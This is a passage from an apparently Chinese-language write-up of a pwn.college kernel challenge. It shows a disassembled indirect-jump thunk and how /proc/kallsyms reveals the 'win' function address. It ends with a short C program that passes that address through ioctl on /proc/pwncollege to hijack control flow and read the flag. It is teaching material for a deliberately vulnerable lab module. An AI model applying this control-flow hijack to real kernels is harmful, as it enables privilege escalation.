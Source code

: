可以看到 `0x00000000000008F2` 其实 `rbx` 就是指向 `arg`，执行到 `call    __x86_indirect_thunk_rbx` 时相当于 `jmp rbx`

```asm
gef➤  disassemble __x86_indirect_thunk_rbx
Dump of assembler code for function __x86_indirect_thunk_rbx:
   0xffffffff81e00ef0 <+0>:	jmp    rbx
   0xffffffff81e00ef2 <+2>:	nop
   0xffffffff81e00ef3 <+3>:	nop
   0xffffffff81e00ef4 <+4>:	nop
   0xffffffff81e00ef5 <+5>:	nop
   0xffffffff81e00ef6 <+6>:	nop
   0xffffffff81e00ef7 <+7>:	nop
   0xffffffff81e00ef8 <+8>:	nop
   0xffffffff81e00ef9 <+9>:	nop
   0xffffffff81e00efa <+10>:	nop
   0xffffffff81e00efb <+11>:	nop
   0xffffffff81e00efc <+12>:	nop
   0xffffffff81e00efd <+13>:	nop
   0xffffffff81e00efe <+14>:	nop
   0xffffffff81e00eff <+15>:	nop
   0xffffffff81e00f00 <+16>:	nop
```

如果我们输入一个地址，那么执行时就是 `jmp` 到这个地址

现在我们就是要获取 `win` 函数的地址，在这里没有 `kaslr`，可以直接读取 `/proc/kallsyms` 获得 `win` 函数的地址

插入内核模块后，可以通过

```
/proc/kallsyms | grep win
```

得到 `win` 函数的地址 `0xffffffffc000091d` 

写 `payload`

```c
#include <sys/ioctl.h>
#include <stdio.h>
#include <fcntl.h>

int main ()
{
  int fd = open ("/proc/pwncollege", O_RDONLY);
  ioctl (fd, 1337, 0xffffffffc000091d);
  char flag[200];
  read (fd, flag, 200);
  printf ("%s\n", flag);
  close (fd);
  return 0;
}
```




